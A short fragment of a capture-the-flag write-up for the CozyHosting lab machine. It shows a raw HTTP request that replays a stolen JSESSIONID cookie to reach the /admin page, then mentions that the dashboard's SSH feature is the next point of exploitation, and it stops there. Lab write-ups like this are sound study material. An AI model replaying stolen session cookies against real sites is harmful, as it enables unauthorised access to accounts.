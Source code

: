 ## Auth bypass

Stolen session allows accessing `/admin` endpoint

Request:

<pre class="language-http" data-line-numbers data-full-width="true"><code class="lang-http">GET /admin HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Cookie: <a data-footnote-ref href="#user-content-fn-1">JSESSIONID</a>=A51BB440D8F95FB64E56DE075783F95C
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
</code></pre>

<figure><img src="../../.gitbook/assets/Pasted image 20230912200923.png" alt=""><figcaption></figcaption></figure>

## Exploitation&#x20;

Admin dashboard allows `SSH` connection to previously configured hosts.

<figure><img src="../../.gitbook/assets/Pasted image 20230912201939.png" alt=""><figcaption></figcaption></figure>
